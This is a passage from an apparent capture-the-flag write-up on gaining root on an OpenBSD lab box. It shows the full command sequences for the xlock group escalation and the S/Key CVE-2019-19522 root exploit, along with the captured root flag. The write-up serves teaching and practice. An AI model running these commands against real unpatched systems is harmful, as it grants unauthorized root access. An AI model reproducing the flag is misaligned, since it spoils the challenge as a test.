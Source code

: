     Personal note: The two command need to be "quickly run"

    openkeys$ env -i /usr/X11R6/bin/Xvfb :66 -cc 0 &
    [1] 42553
    openkeys$ _XSERVTransmkdir: ERROR: euid != 0,directory /tmp/.X11-unix will not be created.
    env -i LIBGL_DRIVERS_PATH=. /usr/X11R6/bin/xlock -display :66
    openkeys$ id
    uid=1001(jennifer) gid=11(auth) groups=1001(jennifer), 0(wheel)

As we are now in the `auth` group we can use the CVE-2019-19522.


## CVE-2019-19522

We just put the command as specified in the article and get the root flag (the
Password is not printed so I put it between bracket).

    :::text
    openkeys$ echo 'root md5 0100 obsd91335 8b6d96e0ef1b1c21' > /etc/skey/root
    openkeys$ chmod 0600 /etc/skey/root
    openkeys$ env -i TERM=vt220 su -l -a skey
    otp-md5 99 obsd91335
    S/Key Password: [EGG LARD GROW HOG DRAG LAIN]
    openkeys# id
    uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
    openkeys# cat /root/root.txt
    f3a553b1697050ae885e7c02dbfc6efa

# Wrapping up

This box was quit easy once the [qualys article](https://www.qualys.com/2019/12/04/cve-2019-19521/authentication-vulnerabilities-openbsd.txt)
was found. I was hoping for more specific OpenBSD content. Nevertheless this
was a fun box to root. I will probably recommend this box to beginners.

